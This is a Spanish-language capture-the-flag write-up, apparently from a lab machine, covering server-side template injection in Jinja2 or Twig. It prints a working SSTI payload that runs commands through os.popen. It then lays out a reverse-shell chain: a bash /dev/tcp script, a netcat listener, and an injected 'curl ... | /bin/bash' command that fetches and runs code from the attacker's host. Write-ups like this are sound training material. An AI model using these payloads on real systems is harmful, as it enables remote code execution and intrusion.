 Una forma de comprobar ante que motor de plantillas estamos es mediante este test:

<img src="https://user-images.githubusercontent.com/55555187/155877397-d3c06ddf-29dc-47b2-bf2e-c795be543079.png" title="" alt="image" width="508">

En nuestro caso nos encontramos ante un **Jinja2** o un **Twig**.

Sabiendo que nos encontramos ante Jinja2 o Twig lo que hago es ir a [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) y buscar payloads de ejecución remota de comandos.

Pruebo a obtener el ID del usuario que está ejecutando el servicio:

{% raw %}
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
{% endraw %}

<img src="https://user-images.githubusercontent.com/55555187/155877552-94c62f5c-fccf-4440-9768-51ffd1cd129f.PNG" title="" alt="recon18" width="355">

Una vez que veo que podemos ejecutar comandos intento entablarme una **reverse shell**.

1- Creo un archivo index.html con el siguiente contenido en mi directorio de trabajo:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.121/443 0>&1
```

2- Me pongo en escucha por el puerto 443 con netcat

```
nc -nvlp 443
```

3- Levanto un servidor con python por el puerto 80 en el directorio actual de trabajo:

```
python3 -m http.server 80
```

3- Lanzo el siguiente comando en la web:

{% raw %}
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http<span>://</span>10.10.14.121 | /bin/bash').read() }}
```
{% endraw %}

Cuando se haga el **curl** sobre el servidor http<span>://</span>10.10.14.121, lo que hará la máquina víctima es **obtener el contenido de index.html** que en este caso es un script en bash que nos entablará una reverse shell.

Al hacer **| /bin/bash** lo que hacemos es que el contenido de **index.html sea interpretado por la bash** haciendo que el comando se ejecute.

![privesc1](https://user-images.githubusercontent.com/55555187/155877589-b9be301e-bac3-4618-a9a3-90a8671c6b38.PNG)

A través del comando hostname -i descubro que estamos dentro de un contenedor.

